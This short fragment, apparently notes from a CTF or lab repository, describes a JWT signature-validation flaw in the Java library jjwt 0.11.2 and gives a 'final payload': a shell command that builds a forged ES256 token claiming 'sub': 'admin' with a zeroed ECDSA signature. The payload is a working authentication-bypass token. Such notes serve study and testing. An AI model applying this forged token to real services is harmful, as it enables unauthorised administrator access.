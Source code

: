 + java jwt vulnerability
+ used jjwt0.11.2 version
+ cve: https://github.com/jwtk/jjwt/issues/726S
+ final payload: echo "eyJhbGciOiJFUzI1NiJ9.`echo -n '{ "sub": "admin" }' | base64`.MAYCAQACAQA"
